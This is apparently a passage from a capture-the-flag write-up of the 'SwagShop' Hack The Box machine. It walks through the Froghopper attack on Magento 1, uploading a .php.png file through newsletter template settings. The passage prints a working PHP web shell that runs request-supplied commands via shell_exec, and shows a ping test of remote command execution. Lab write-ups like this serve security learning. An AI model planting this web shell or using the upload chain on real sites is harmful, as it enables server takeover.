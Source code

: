 Thanks to the help of the community that guides me a little on the next step I have to do, I start to investigate how to exploit this version of the **CMS Magento** and I find an excellent research on **[how to apply the Froghopper attack methodology](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper){:target="_blank"}** that would allow me to upload a malicious file and thus execute commands (obtain an **RCE**). I follow the instructions indicated in the web resource, in the **Configuration Panel** I must activate the Magento developer “Allow Symlink” function for **Magento Newsletter Template**, the next thing is to add a **new Newsletter Template** and finally in the **Category Management** tab add a new one where I can upload a double extension **.php.png** file with **PHP** code from a **web shell**. Hovering over the link of the newly uploaded file I get the **URL** of the path where it was stored, so if I access it it does exist, but if I try to execute commands I don't get it, so I will continue reading the resource I found on the web to achieve my goal.

> In some unpatched versions of **Magento 1**, several vulnerabilities can be combined to allow attackers to upload files and execute them on the server to gain **full control** of the file system. One common attack methodology was nicknamed **“Froghopper”** by **Foregenix** analysts because the attackers frequently used an image file featuring a cartoon frog named **‘Pepe’** to introduce malicious code to the system.

> **Magento Newsletter functionality**, which allows the creation of customer newsletters from templates, and the way in which **Magento** interprets the template files.

```bash
nvim pwn3d.php.png
cat !$
```

> **pwn3d.php.png**:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST["cmd"]) . "</pre>";
?>
```

```bash
# http://swagshop.htb/media/catalog/category/pwn3d.php.png
# :)

tcpdump -i tun0 icmp -n
# http://swagshop.htb/index.php/admin/newsletter_template/preview/id/1/key/b3923f85ba03f54377e3e002fbb14a84/?cmd=ping%20-c%201%2010.10.14.5
# :(
```

<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/swagshop_writeup/SwagShop_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
